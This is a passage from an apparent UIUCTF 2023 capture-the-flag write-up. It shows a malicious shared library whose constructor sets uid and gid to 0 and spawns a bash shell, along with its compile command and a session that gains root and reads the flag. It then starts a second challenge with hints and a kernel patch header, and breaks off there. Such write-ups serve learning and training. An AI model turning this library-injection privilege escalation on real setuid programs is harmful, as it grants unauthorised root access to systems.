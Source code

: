 I then created a new `lib.so` using the following C code:

```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>

static __attribute__((constructor)) void static_constructor(void) {
    // Set effective user id of the process to root
    setuid(0);
    perror("setuid");
    // Set effective group id of the process to root
    setgid(0);
    perror("setgid");
    // Spawn a shell
    execlp("/bin/bash", "bash", "-l", NULL);
}

void foo(void) {
    printf("foo invoked\n");
}
```

Compile it with:

```
uiuctf-2023:~$ cc -o lib.so x.c -fPIC -shared
```

Now we run the `exe` with our new `lib.so`:

```
uiuctf-2023:~$ ./exe
setuid: Success
setgid: Success
uiuctf-2023:~# id
uid=0(root) gid=0(root) groups=0(root),1000(user)
uiuctf-2023:~# cat /mnt/flag
uiuctf{did-you-see-why-its-in-usr-lib-now-0cd5fb56}
```

## Zapping a Setuid 2

> Ok ok ok, but what if there was another way?

Hint 1:

> The "zapps" symlink is for accessibility. The intended solution does not depend on the symlink.

Hint 2:

> The additional patches to this challenge are hints.

In this version `protected_hardlinks` is enable so `user` cannot create hard link of `exe` anymore.
But the kernel is modified with some patches. Let's analyze them.

```diff
From 7d26a340113813b6f9064b25f2928c177269d2f5 Mon Sep 17 00:00:00 2001
From: YiFei Zhu <zhuyifei@google.com>
Date: Mon, 19 Jun 2023 22:26:16 -0700
Subject: [PATCH] fs/namespace: Allow generic loopback mount without requiring
 nsfs

The argument was flawed and was never agreed upon [1].

After 18 years, what could possibly go wrong?

[1] https://lore.kernel.org/all/1131563299.5400.392.camel@localhost/T/#t

Signed-off-by: YiFei Zhu <zhuyifei@google.com>
```